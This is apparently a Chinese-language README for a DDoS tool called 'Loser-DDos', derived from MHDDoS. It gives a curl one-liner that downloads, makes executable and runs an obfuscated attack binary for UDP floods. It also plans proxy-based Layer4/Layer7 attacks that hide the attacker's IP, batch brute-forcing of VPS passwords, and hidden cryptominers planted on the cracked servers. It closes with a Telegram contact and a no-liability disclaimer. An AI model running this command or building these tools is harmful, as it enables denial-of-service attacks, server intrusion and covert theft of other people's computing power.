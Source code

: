 ## 有时间将会完善,目前只有第一种攻击方式

测试脚本(推荐使用ubuntu系统)
```
curl -sSL https://raw.githubusercontent.com/seagullz4/Loser-DDos/main/bomb -o bomb && chmod +x bomb && ./bomb
```

暂时只能是x86/amd64架构的服务器运行

暂时只能使用UDP攻击服务器,后续内容正在添加+测试中


测试用户请联系我: [@seagullz44](https://t.me/seagullz44)

原项目地址是这个哈,有兴趣的可以去看看: [MHDDoS](https://github.com/MatrixTM/MHDDoS)

# 预计内容
 
1.原有的Layer7 (Website)攻击+Layer4 (Server/Home)基础上优化,以及在线的socks5和socks4和Proxies HTTP的在线获取,更好的通过多种ip打击网站,并隐藏好自己的ip
 
2.暴力破解vps密码,可以默认自定义操作,定时,批量
 
3.对所破解的vps进行植入挖矿程序,可以自定义挖矿的CPU占比,防止用户察觉
 
4.将继续收集其他ddos项目进行优化简介合并
 

本脚本采用的是简单加密,这种加密程度不是很高,但可以防止一些小白同志进行二改贩卖,请勿用于违法犯罪,请下载本脚本1小时后删除,使用本脚本自动同意使用者承担一切风险的原则,与作者无关